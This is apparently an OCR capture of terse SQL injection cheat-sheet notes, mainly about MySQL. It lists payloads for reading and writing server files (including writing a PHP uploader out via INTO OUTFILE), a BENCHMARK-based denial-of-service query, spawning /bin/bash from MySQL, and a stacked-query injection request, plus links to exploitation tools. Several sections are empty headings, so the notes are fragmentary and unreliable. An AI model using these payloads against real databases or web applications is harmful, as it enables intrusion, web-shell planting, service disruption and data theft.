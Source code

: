 LOAD DATA INFILE 'file.txt' INTO TABLE tablename;

FILE UPLOAD:
--------------

- 2 options - regular file upload 

or use INSERT TO GET CODE INTO TABLE AND FROM TABLE INTO FILE

> SELECT HEX(LOAD_FILE('D:/UPLOADER.PHP')) INTO OUTFILE 'D:/OUTPUT.HEX'\G WITH UNSUSPICIOUS UPLOADER

INSERT INJECTION:
-------------------

INSERT INTO TABLE_NAME SELECT * FROM ANOTHER_TABLE;

DELETE INJECTION:
-------------------

BLIND INJECTION:
-------------------

DOS:
-------

BENCHMARK(99999999,MD5(99999999))
 
MYSQL RUN SYSTEM COMMANDS:
----------------------------

system COMMAND 
system /bin/bash

---------------
MYSQLI TOOLS:
---------------

https://github.com/dtrip/mysqloit

--------------
MYSQL UDFS:
--------------

https://www.exploit-db.com/docs/44139

DOCU: 
https://www.blackhat.com/presentations/bh-usa-09/DZULFAKAR/BHUSA09-Dzulfakar-MySQLExploit-SLIDES.pdf

----------------------
POSTGRESQL INJECTION:
----------------------

HOW TO DO STACKED QUERY SQL INJECTION: 
-------------------------------------------
GET /servlet/asdf?ForMasRange=1&userId=1;<some query>;--+
